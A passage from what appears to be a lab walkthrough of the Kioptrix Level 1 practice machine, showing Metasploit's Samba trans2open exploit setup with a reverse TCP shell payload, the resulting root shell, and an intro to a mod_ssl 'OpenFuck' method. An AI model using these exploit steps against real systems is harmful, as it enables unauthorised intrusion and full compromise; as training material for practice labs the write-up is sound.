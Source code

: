 ```console
   ----   ---------------  --------  -----------
   LHOST  10.0.0.12        yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Samba 2.2.x - Bruteforce


msf6 exploit(linux/samba/trans2open) > set RHOSTS kioptrix
RHOSTS => kioptrix
msf6 exploit(linux/samba/trans2open) > set payload linux/x86/shell/reverse_tcp
payload => linux/x86/shell/reverse_tcp
msf6 exploit(linux/samba/trans2open) > exploit 

[*] Started reverse TCP handler on 10.0.0.12:4444 
[*] 10.0.0.5:139 - Trying return address 0xbffffdfc...
[*] 10.0.0.5:139 - Trying return address 0xbffffcfc...
[*] 10.0.0.5:139 - Trying return address 0xbffffbfc...
[*] 10.0.0.5:139 - Trying return address 0xbffffafc...
[*] Sending stage (36 bytes) to 10.0.0.5
[*] Command shell session 9 opened (10.0.0.12:4444 -> 10.0.0.5:32777) at 2021-01-15 13:40:46 -0500
```

Great, now we can spawn an interactive shell and use `whoami` command to check the user we where able to exploit:

```console
shell
[*] Trying to find binary(python) on target machine
[*] Found python at /usr/bin/python
[*] Using `python` to pop up an interactive shell
[*] Trying to find binary(bash) on target machine
[*] Found bash at /bin/bash
ls
whoami
root
```

- [x] Gain root access to the machine

## Method 2: OpenFuck mod_ssl vulnerability
nmap revealed **mod_ssl/2.8.4** is enabled on port 443. Using Google we found the specific mod_ssl is vulnerable to [OpenFuck](https://www.cvedetails.com/vulnerability-list/vendor_id-1046/product_id-1817/version_id-6036/Mod-Ssl-Mod-Ssl-2.8.4.html)

![kioptrix Level 1 mod_ssl OpenFuck](/assets/img/posts/Kioptrix_level_1/Kioptrix-level-1_openfuck.webp) _Samba OpenFuck vulnerability_